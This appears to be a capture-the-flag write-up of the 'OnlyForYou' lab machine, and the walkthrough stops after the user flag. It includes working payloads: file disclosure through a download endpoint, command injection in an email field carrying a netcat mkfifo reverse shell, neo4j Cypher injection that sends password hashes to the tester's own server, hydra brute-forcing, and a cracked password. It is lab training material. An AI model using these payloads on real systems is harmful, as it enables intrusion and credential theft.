







# OnlyForYou

<figure><figcaption></figcaption></figure>

## User Flag

### Enumeration

Start with an nmap scan like usual:


```console
toasty@parrot$ sudo nmap -sC -sV -p-  10.10.11.210
...SNIP
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e883e0a9fd43df38198aaa35438411ec (RSA)
|   256 83f235229b03860c16cfb3fa9f5acd08 (ECDSA)
|_  256 445f7aa377690a77789b04e09f11db80 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://only4you.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see that `80` will redirect us to `only4you.htb` so let's add that to our hosts file and visit the site.

### Only4You Webpage

<figure><figcaption></figcaption></figure>

It appears to be a site for a company that delivers custom solutions for clients. I click around but the only thing I can really interact with is the Contact form which we'll come back to.

### Fuzzing

Let's go ahead and fuzz the site for subdomains and other directories using `ffuf`.

**Virtual Host Fuzzing**

```console
toasty@parrot$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://only4you.htb -H "HOST: FUZZ.only4you.htb" -mc all -fs 178
...SNIP

beta                    [Status: 200, Size: 2191, Words: 370, Lines: 52, Duration: 37ms]
:: Progress: [19966/19966] :: Job [1/1] :: 1289 req/sec :: Duration: [0:00:16] :: Errors: 0 ::
```

We get results from our virtual host fuzzing but unfortunately nothing pops up on the directory fuzz.

### Beta.Only4You.htb

<figure><figcaption></figcaption></figure>

We see two buttons. The `return back` sends us back to the initial `only4you` main page and the `Source Code` button will download a zip file to our machine. Let's get that file.

```console
toasty@parrot$ wget http://beta.only4you.htb/source
--2023-08-25 15:49:52--  http://beta.only4you.htb/source
...SNIP
2023-08-25 15:49:53 (428 MB/s) - ‘source’ saved [12127/12127]
toasty@parrot$ file source 
source: Zip archive data, at least v1.0 to extract
toasty@parrot$ unzip source
Archive:  source
   creating: beta/
  inflating: beta/app.py             
   creating: beta/static/
   creating: beta/static/img/
  inflating: beta/static/img/image-resize.svg  
   creating: beta/templates/
  inflating: beta/templates/400.html  
  inflating: beta/templates/500.html  
  inflating: beta/templates/convert.html  
  inflating: beta/templates/index.html  
  inflating: beta/templates/405.html  
  inflating: beta/templates/list.html  
  inflating: beta/templates/resize.html  
  inflating: beta/templates/404.html  
   creating: beta/uploads/
   creating: beta/uploads/resize/
   creating: beta/uploads/list/
   creating: beta/uploads/convert/
  inflating: beta/tool.py            
```

### Source Code

We get the source code for the `beta` site in here. What I really dug into is the two python files: `app.py` and `tool.py`.

The `app.py` is a python file for a Flask server. We can see the routes defined for the `beta` site are : `/resize`, `/convert`, `/source`, `/download`, and `/list`. The `tools.py` file is imported in the `app.py file` and is used to convert the image files.\
We can upload image files (`jpg` and `png`) that get resized and the python has a few checks to verify the files. Having the source code let's us dig through and find a way to exploit the upload/download/convert process.

### Download method abuse

The `download` section is interesting:\


```python
@app.route('/download', methods=['POST'])
def download():
    image = request.form['image']
    filename = posixpath.normpath(image) 
    if '..' in filename or filename.startswith('../'):
        flash('Hacking detected!', 'danger')
        return redirect('/list')
    if not os.path.isabs(filename):
        filename = os.path.join(app.config['LIST_FOLDER'], filename)
    try:
        if not os.path.isfile(filename):
            flash('Image doesn\'t exist!', 'danger')
            return redirect('/list')
    except (TypeError, ValueError):
        raise BadRequest()
    return send_file(filename, as_attachment=True)
```

We can send a `POST` request to the `/download` endpoint using `form` encoding and if all checks are passed, we are sent that file's contents back. Here are the Flask pages on the command used: [send\_file](https://tedboy.github.io/flask/generated/flask.send\_file.html).\
For LFI we can do path traversal using `../..` since we usually need to navigate out of the web root directory. Unfortunately, that is part of the app's `if` statements to prevent that. That doesn't stop us though as the `download` method actually let's us specify the absolute path of the file. For example we can take a common file like `/etc/passwd`, set it to the parameter `image`, and retrieve that file.

We can achieve this using `curl`:

```console
toasty@parrot$ curl -s -d "image=/etc/passwd" http://beta.only4you.htb/download | sort
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
dev:x:1001:1001::/home/dev:/bin/bash
fwupd-refresh:x:114:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
games:x:5:60:games:/usr/games:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
john:x:1000:1000:john:/home/john:/bin/bash
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
...SNIP
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin

```

Proving we can grab files! We also see we have users such as `john` and `dev`.

### More LFI

We already have the source code for `beta.only4you.htb`, we can guess the path for the sites. We try a few but a common naming scheme is going to be `/var/www/$site`. Let's check that by getting the `tool.py` file.

```console
toasty@parrot$ curl -s http://beta.only4you.htb/download -d "image=/var/www/beta.only4you.htb/tool.py"
from flask import send_file, current_app
import os
from PIL import Image
from pathlib import Path

def convertjp(image):
    imgpath = os.path.join(current_app.config['CONVERT_FOLDER'], image)
    img = Image.open(imgpath)
... SNIP
```

### Source Code only4you

Now that we have confirmed the `beta` site files location, let's try to grab source files for `only4you.htb`. We can only grab files we know the name for, but `app.py` is a safe starting point:\


Command:\
`curl -s http://beta.only4you.htb/download -d "image=/var/www/only4you.htb/app.py"`

**App.py**

```python

from flask import Flask, render_template, request, flash, redirect
from form import sendmessage
import uuid

app = Flask(__name__)
app.secret_key = uuid.uuid4().hex

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        email = request.form['email']
        subject = request.form['subject']
        message = request.form['message']
        ip = request.remote_addr

        status = sendmessage(email, subject, message, ip)
        if status == 0:
            flash('Something went wrong!', 'danger')
        elif status == 1:
            flash('You are not authorized!', 'danger')
        else:
            flash('Your message was successfuly sent! We will reply as soon as possible.', 'success')
        return redirect('/#contact')
    else:
        return render_template('index.html')

...SNIP

```

We can see that there is two methods allowed, `GET` and `POST`. `POST` requires the form parameters `email`, `subject`, and `message`. `sendmessage` is being imported from a `form` file so let's get the `form.py` file:\


**Command**

`curl -s http://beta.only4you.htb/download -d "image=/var/www/only4you.htb/form.py"`

**Only4you.htb/Form.py**

```python
import smtplib, re
from email.message import EmailMessage
from subprocess import PIPE, run
import ipaddress

def issecure(email, ip):
	if not re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email):
		return 0
	else:
		domain = email.split("@", 1)[1]
		result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
		output = result.stdout.decode('utf-8')
		if "v=spf1" not in output:
			return 1
		else:
			domains = []
			ips = []
			if "include:" in output:
				dms = ''.join(re.findall(r"include:.*\.[A-Z|a-z]{2,}", output)).split("include:")
				dms.pop(0)
				for domain in dms:
					domains.append(domain)
				while True:
					for domain in domains:
						result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
						output = result.stdout.decode('utf-8')
						if "include:" in output:
							dms = ''.join(re.findall(r"include:.*\.[A-Z|a-z]{2,}", output)).split("include:")
							domains.clear()
							for domain in dms:
								domains.append(domain)
						elif "ip4:" in output:
							ipaddresses = ''.join(re.findall(r"ip4:+[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+[/]?[0-9]{2}", output)).split("ip4:")
							ipaddresses.pop(0)
							for i in ipaddresses:
								ips.append(i)
... SNIP
```

### RCE

We look for spots in the python code that we can potentially expoloit, and we see that below portion:\


```python
def issecure(email, ip):
	if not re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email):
		return 0
	else:
		domain = email.split("@", 1)[1]
		result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
```

The snippet above is where the we target remote code execution (RCE) on the machine. Whats going on is: On a `post` request, the email parameter is checked via regex to see if it matches, then it is split on the `@` symbol and the second half is checked on the command line via `dig`.\


Or that's the intent. What if we have an email address with a little something extra attached? The regex is not checking for the end of a string, just that the beginning matches an email. `toasty@test.com` is a valid email according to the regex, but so is `toasty@test.com; curl 10.10.14.231:8000` . If we pass that email in, it will be split on `@` and passed on the command line like below:\


`dig txt test.com; curl 10.10.14.231:8000`\


Now that command is just a proof for showing we can get RCE, let's go ahead and test it:

#### Testing RCE

Let's get two terminals running, one listener and one sender.

**Sender**

```sh
toasty@parrot$ curl -v -X POST http://only4you.htb/ -d "subject=mysub&message=mymess&email=toasty@test.com;curl 10.10.14.231:8000"
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.10.11.210:80...
* Connected to only4you.htb (10.10.11.210) port 80 (#0)
> POST / HTTP/1.1
...SNIP
```

**Listener**

```sh
toasty@parrot$ nc -lvnp 8000
listening on [any] 8000 ...
connect to [10.10.14.231] from (UNKNOWN) [10.10.11.210] 46246
GET / HTTP/1.1
Host: 10.10.14.231:9000
User-Agent: curl/7.68.0
Accept: */*
=
```

### Reverse Shell

Now that we can succesfully perform RCE on the machine, we can set up a reverse shell. We will use [revshells](https://www.revshells.com/) to set up a netcat mkfifo reverse shell.

**Sender**

We will send the command from revshells and make sure that it is url encoded so that it is properly processed. I tried quite a few different attempts before I found this one that worked, whether that be inexperience or stupidity I do not know.

```sh
toasty@parrot$ curl -s http://only4you.htb/ -d "subject=mysub&message=mymess&email=toasty@test.com;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.14.231%209001%20%3E%2Ftmp%2Ff"
```

**Listener**

Start up the nc listener and we will see our connection come back, run `id` to check our user to see we now have access as `www-data`

```console
toasty@parrot$ $nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.231] from (UNKNOWN) [10.10.11.210] 45048
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Let's upgrade that to a fully interactive TTY. We can use methods from [Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys).

### www-data Enumeration

We do a fair number of enumeration tasks and commands to find out information about the system, but using `netstat` we can see that the server is listening on a few ports:\


```sh
www-data@only4you:~/only4you.htb$ netstat -a -p
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:http            0.0.0.0:*               LISTEN      1045/nginx: worker  
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8001          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN      -                   

```

3000,8001, and 33060. `33060` is a port for mysql, so what are port 3000, and 8001? Trying to use `nc` to connect to the ports on our target machine get's us no useful information.

### Chisel

We can use chisel to tunnel the ports to our attack machine and scan the services more effectively.

**Chisel Client**

Set up the client to forward the local ports to matching ports on our target machine

```
www-data@only4you:/tmp/tmp8921$ ./chisel client 10.10.14.231:9001 R:3000:localhost:3000 R:8001:localhost:8001
```

**Chisel Server**

Starting the server and seeing the connections come in

```sh
$~/go/bin/chisel server -p 9001 --reverse
2023/08/25 19:39:23 server: Reverse tunnelling enabled
2023/08/25 19:39:23 server: Fingerprint JLnfm3zRpGTGgmZEChgjFNii8Ny4SEhHc+7pOhQKPMg=
2023/08/25 19:39:23 server: Listening on http://0.0.0.0:9001
2023/08/25 19:40:51 server: session#1: tun: proxy#R:3000=>localhost:3000: Listening
2023/08/25 19:40:51 server: session#1: tun: proxy#R:8001=>localhost:8001: Listen
```

### Nmap pt.2

We can then use nmap to see if we can pull any extra information:\


```sh
toasty@parrot$ sudo nmap -p3000,8001 localhost -sC -sV

PORT     STATE SERVICE VERSION
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gogs=ec129196d0908f79; Path=/; HttpOnly
|     Set-Cookie: _csrf=jX6CXUVr-S0sAj_BfNNj0tH1kSU6MTY5Mjk4ODg4NzEwMDIzNDM5Mw; Path=/; Domain=127.0.0.1; Expires=Sat, 26 Aug 2023 18:41:27 GMT; HttpOnly
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: DENY
|     Date: Fri, 25 Aug 2023 18:41:27 GMT
|     <!DOCTYPE html>
|     <html>
|     <head data-suburl="">
|     <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge"/>
|     <meta name="author" content="Gogs" />
|     <meta name="description" content="Gogs is a painless self-hosted Git service" />
|     <meta name="keywords" content="go, git, self-hosted, gogs">
|     <meta name="referrer" content="no-referrer" />
|     <meta name="_csrf" content="jX6CXUVr-S0sAj_BfNNj0tH1kSU6MTY5Mjk4ODg4NzEwMDIzN
|   HTTPOptions: 
|     HTTP/1.0 500 Internal Server Error
|     Content-Type: text/plain; charset=utf-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     X-Content-Type-Options: nosniff
|     Date: Fri, 25 Aug 2023 18:41:32 GMT
|     Content-Length: 108
|_    template: base/footer:15:47: executing "base/footer" at <.PageStartTime>: invalid value; expected time.Time
8001/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
| http-title: Login
|_Requested resource was /login

```

We have a [gunicorn](https://gunicorn.org/) hosted page directing us to a login and a self hosted git service called [gogs](https://gogs.io/).

### Gogs

#### Homepage


#### Users

If we browse over to users we have two: `administrator` and `john`\


<figure><figcaption></figcaption></figure>

#### Login


### Port 8001/Gunicorn


We see a login page for the gunicorn hosted page but no other information appears present.

### Hydra

I tried searching exploits/default creds for both of these pages but I could not find any. What we can do however is run `hydra` against them to try and crack any easy passwords. We need to get a few things for hydra to work: a username/user list, a password list, how password is passed, endpoint it is set to, and a filter for incorrect logins. I brush over those things as they are easy to find.

#### Gogs

We know that gogs has two user's named `administator` and `john`. The login path is a `post` request to `/user/login`, and the text we can filter on is `Username or password is not correct`

```console
toasty@parrot$ hydra -u -f -L ./gogs_users.txt -P /usr/share/seclists/Passwords/Default-Credentials/default-passwords.txt  localhost http-post-form "/user/login:username=^USER^&password=^PASS^:Username or password is not" -I -s 8001
..SNIP
[DATA] attacking http-post-form://localhost:8001/user/login:username=^USER^&password=^PASS^:Username or password is not
..SNIP
1 of 1 target completed, 0 valid password found
```

Unfortunately, we did not find a valid password. We are only using default passwords to try and speed it up. If both hydra attempts are unsuccesful we can revisit.

#### Gunicorn Site

We don't have any usernames to go off here but we can use the top-usernames-shortlist that comes with [seclist](https://github.com/danielmiessler/SecLists/). Again it is a `post` request using form encoding and this time it goes to the `/login` path. The filter is `Username or Password is wrong!`. `-s` specifies the port.

```console
toasty@parrot$ hydra -u -f -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/Default-Credentials/default-passwords.txt  localhost http-post-form "/login:username=^USER^&password=^PASS^:Username or Password is wrong!" -I -s 8001
...SNIP
[DATA] attacking http-post-form://localhost:8001/login:username=^USER^&password=^PASS^:Username or Password is wrong!
[8001][http-post-form] host: localhost   login: admin   password: admin
[STATUS] attack finished for localhost (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

Look at that `admin:admin`, very easy.

### Gunicorn Dashboard

<figure><figcaption></figcaption></figure>

We get a dashboard. There is not actually much on here that we can go through that looks helpful. There is an employees tab and a user profile tab but both yield no results. Our main page has a `Tasks` checkbox that gives us some information:

<figure><figcaption></figcaption></figure>

We can see that there was a recent migration to a `neo4j` database

From the `Employees` tab we have a section where we can search for different users.

<figure><figcaption></figcaption></figure>

Pretty sure this is pulling straight from the database so let's use some of these neo4j cypher queries from [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j).\


We will need to start up a server on our attack machine to receive the requests:\


**Query #1**

```
'OR 1=1 WITH 1 as a CALL db.labels() YIELD label LOAD CSV FROM 'http://10.10.14.231/?l='+label as l RETURN 0 as _0 //
```

**Response #1**

```console
toasty@parrot$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.210 - - [25/Aug/2023 21:59:58] "GET /?l=user HTTP/1.1" 200 -
10.10.11.210 - - [25/Aug/2023 21:59:58] "GET /?l=employee HTTP/1.1" 200 -
```

**Query #2**

```
'OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.231/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

**Response #2**

```console
10.10.11.210 - - [25/Aug/2023 22:01:28] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [25/Aug/2023 22:01:28] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [25/Aug/2023 22:01:29] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [25/Aug/2023 22:01:29] "GET /?username=john HTTP/1.1" 200 -
```

As you can see above we ran through some of the neo4j cypher queries and we were able to eventually pull out a username and a password hash from the queries. We can then take these to `hashcat` to attempt to crack.

### Hashcat

I tried running both the admin and john hash through hashcat but only john returned a result:

```powershell
hashcat-6.2.5> .\hashcat.exe -m 1400 C:\temp\john.txt C:\temp\wordlists\rockyou.txt
hashcat (v6.2.5) starting

...SNIP

Dictionary cache hit:
* Filename..: C:\temp\wordlists\rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6:ThisIs4You
```

### SSH as John

Now that we got a password for John, let's try and ssh into the machine.

```console
toasty@parrot$ sshpass -p ThisIs4You ssh john@only4you.htb
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-146-generic x86_64)

...SNIP
Last login: Fri Aug 25 20:58:13 2023 from 10.10.14.171
john@only4you:~$ id
uid=1000(john) gid=1000(john) groups=1000(john)
```

### User.txt

```console
john@only4you:~$ ls
user.txt
john@only4you:~$ cat user.txt 
1b8d2***************************
```

## Machine Flag

I ran through the machine flag on a separate instance. I will have to come back at a later point and fill out this section.
